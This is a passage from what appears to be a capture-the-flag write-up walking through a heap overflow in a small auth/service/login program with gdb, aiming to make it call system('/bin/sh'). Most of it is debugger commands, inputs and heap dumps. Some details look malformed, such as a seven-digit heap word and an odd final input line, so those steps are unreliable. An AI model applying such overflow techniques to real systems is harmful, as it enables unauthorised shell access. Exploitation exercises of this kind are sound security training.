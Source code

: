 
Set a breakpoint after the `strdup()` storing into the `service` pointer:

```gdb
(gdb) break *0x080486b5
(gdb) run
```

When prompted by the program:

```gdb
auth test
continue
service AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

Once we hit the breakpoint, we inspect the heap:

```gdb
(gdb) x/12wx 0x0804a008
0x804a008: 0x7436574  0x0000000a  0x00000000  0x00000029
0x804a018: 0x41414120  0x41414141  0x41414141  0x41414141
0x804a028: 0x41414141  0x41414141  0x41414141  0x41414141
```

The overflow worked, the chunk starting at `service` now extends beyond its original size, reaching `auth + 0x20`.

To confirm the offset numerically:

```gdb
(gdb) print 0x0804a028 - 0x0804a008
$1 = 32
```

We are now ready to place a **non-zero value at `*(auth + 0x20)`** and satisfy the login condition.

---

### **Step 6: Satisfy the Condition and Trigger the Shell**

We now verify that our overflow correctly modified `*(auth + 0x20)` and that the condition to call `system("/bin/sh")` is met.

Set a breakpoint right after the condition:

```gdb
(gdb) break *0x080486e7
```

Resume execution:

```gdb
(gdb) continue
```

When prompted again:

```gdb
0x804a008, 0x804a018
login
```
